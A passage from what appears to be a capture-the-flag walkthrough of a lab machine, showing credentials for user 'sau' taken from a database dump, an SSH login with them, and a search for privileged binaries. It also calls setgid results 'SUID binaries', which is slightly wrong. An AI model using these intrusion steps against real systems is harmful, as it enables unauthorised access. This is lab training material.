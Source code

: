 ```
+----+----------------------------------------------+----------+


[*] ending @ 11:08:04 /2023-05-27/
```

And there we get the credentials for another user `sau`.

Along with these credentials and knowing that the SSH port is open, we can try to login to the machine using these credentials.

```
$ ssh sau@10.129.251.25
The authenticity of host '10.129.251.25 (10.129.251.25)' can't be established.
ECDSA key fingerprint is SHA256:1g85rB6ht6M95bNqeghJZT5nAhCfSdKOoWWx7TE+5Ck.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.251.25' (ECDSA) to the list of known hosts.
sau@10.129.251.25's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ whoami
sau
sau@pc:~$ uname -a
Linux pc 5.4.0-148-generic #165-Ubuntu SMP Tue Apr 18 08:53:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

Now, we can get the user flag.

## Privilege Escalation

Now that we have a shell on the machine, we can start looking for privilege escalation vectors. We can start by looking for SUID binaries.

```
$ find / -perm /2000 2> /dev/null 
/var/log/journal
/var/log/journal/52ecde973e1e49a1b8fbee7dab5410c1
/var/local
/var/mail
/snap/core20/1778/usr/bin/chage
/snap/core20/1778/usr/bin/expiry
/snap/core20/1778/usr/bin/ssh-agent
/snap/core20/1778/usr/bin/wall
/snap/core20/1778/usr/sbin/pam_extrausers_chkpwd
/snap/core20/1778/usr/sbin/unix_chkpwd
/snap/core20/1778/var/mail
/run/log/journal
/usr/sbin/pam_extrausers_chkpwd
/usr/sbin/unix_chkpwd
/usr/lib/x86_64-linux-gnu/utempter/utempter
/usr/bin/crontab
/usr/bin/at
/usr/bin/chage
/usr/bin/bsd-write
/usr/bin/ssh-agent
/usr/bin/expiry
/usr/bin/wall
/usr/local/lib/python3.8
```
